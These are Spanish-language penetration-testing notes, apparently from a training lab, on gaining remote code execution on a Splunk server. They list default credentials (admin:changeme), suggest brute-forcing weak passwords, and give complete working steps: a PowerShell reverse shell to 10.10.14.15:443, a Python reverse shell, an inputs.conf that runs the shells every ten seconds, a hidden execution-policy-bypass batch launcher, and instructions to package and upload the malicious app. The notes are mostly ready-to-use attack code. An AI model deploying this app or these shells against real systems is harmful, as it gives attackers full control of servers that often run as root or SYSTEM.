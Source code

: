 - Herramienta de recopilación, analisis y visualización de datos.
- Suele correr como root o SYSTEM.
- Corre por defecto en el puerto 8000
- La version free no requiere autenticación.
-  Default credentials: admin:changeme.
-  SI las credenciales anteriores no funcionan, siempre sirve hacer fuerza bruta con weak passwords.
-  Viene con python instalado.


### Enumeration

    https://10.129.201.50:8000/en-US/app/launcher/home

### Exploitation

Podemos tener RCE si creamos una aplicación en python, batch o Powershell.

##### 1) Creamos una aplicación con la estructura de directorios:

        splunk_shell/
        ├── bin
        └── default

##### 2) En la carpeta bin metemos los scripts que vamos a correr y en el directorio default tenemos que poner los inputs.conf

###### Script de shell reversa en powershell:

        #A simple and small reverse shell. Options and help removed to save space. 
        #Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
        $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

###### Script en python:

        import sys,socket,os,pty
        
        ip="attacker-ip-here"  
        port="attacker port here"  
        s=socket.socket()  
        s.connect((ip,int(port)))  
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn('/bin/bash')  

##### 3)El inputs.conf
Este es el archivo que le dice a splunk qué script debe correr. 

        [script://./bin/rev.py]
        disabled = 0  
        interval = 10  
        sourcetype = shell 
        
        [script://.\bin\run.bat]
        disabled = 0
        sourcetype = shell
        interval = 10

##### 4)Necesitamos un .bat que corra la powershell una vez deployada la app.

        @ECHO OFF
        PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
        Exit

##### 5) Una vez esto está creado debemos pasarlo a un tar.
        tar -cvzf updater.tar.gz splunk_shell/

##### 6) Subir e instalar la aplicación:

        https://10.129.201.50:8000/en-US/manager/search/apps/local
        
